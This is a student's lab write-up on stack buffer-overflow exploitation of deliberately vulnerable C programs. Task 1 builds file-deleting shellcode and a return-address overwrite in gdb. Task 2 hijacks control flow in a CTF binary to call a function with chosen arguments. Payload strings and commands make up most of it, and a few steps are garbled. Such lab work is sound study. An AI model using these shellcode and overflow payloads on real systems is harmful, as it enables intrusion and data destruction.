

 22110042 Doan Minh Khanh
> ### Lab 2 
## Task 1
**Inject code to delete file: file_del.asm is given on github**

Create a file called dummy file
>

 Firstly, accessing to the virtual machine by Docker
>

> Go into the lab\seclabs\Security-labs\Software\buffer-overflow and then create a file_asm out by these 2 commands

Then I will get the hexstring of file_del
> for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
>\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\xdummyfile.
>
Remove \xdummyfile because it is not meaningful hexadecimal code       
> \xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00

Stack Frame
>  
> To execute the the file_del, it needs to overwrite the buffer
> It is: 36 bytes shell code + 4 bytes return address + 32 bytes placement code = 72 bytes

Now we need to access gdb of vuln.out 
>  
> break at 0x0804843e and 0x0804846b

> using r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x0f'+'a'*32+'\xff\xff\xff\xff')")
> 
> 
> then we run the shell and look by command: x/80xb $esp

>Then, we will observe the first 3 bytes will respond the shellocde, but at the 4th byte because we have \x0a in the hexstring, the strcpy will make the interuption
>

Therefore, we need to change some character:
* 0x00: null
* 0x09: horizontal tab
* 0x0a: line feed
>
> So we need to change the assembly code in file-del to this for replacing the \x0a in the line *"move eax,10"* 
>

Get the shellcode again, we have:
>
> Now, we prevent the termination by the address 0xff and mark the return of the return frame
> 
> Also, we can see the address pf esp is \x68\xd6\xff\xff. So we need change the marked position to this position. So we change the command into:
>
> r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x0f'+'a'*32+'\x68\xd6\xff\xff')")
> 
> 
> then we continue to set 0xffffd6d8b = 0x00 and change the bit from 0xffffd671 to 0xffffd674 to the address of the dummyfile
> 
> then we have final result
> 
> and the dummy_file is deleted by vuln.c
> 

***
## Task 2
**Conduct attack on ctf.c** 
> The stack frame
> 
>The *vuln* function account for the first 104 bytes
> 
To overflow, we need to over the return address

Create the file ctf.out
> gcc -g ctf.c -o ctf.out -fno-stack-protector -mpreferred-stack-boundary=2

Connect gdb and disas myfunc
> 
> we have the *myfunc* adress: 0x0804851b, and p = 0x04081211 and q = 0x44644262 so we have the command
> we have 104(padding) + the myfunc's address + 4(padding) + p(value) + q(value)
> r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'a'*4+'\x11\x12\x08\x04'+'\x62\x42\x64\x44')")

After running we met flag 1 is missing >> create flag1.txt
> 
> 

>But when running in gdb, it meet an infinite func
>
So we need to find the exit address to replace the padding 
>
> r $(python -c "print('a'*104 + '\x1b\x85\x04\x08' + '\xe0\x83\x04\x08'+ '\x11\x12\x08\x04' + '\x62\x42\x64\x44')")
> Run again and we have the expected outcome:
> 

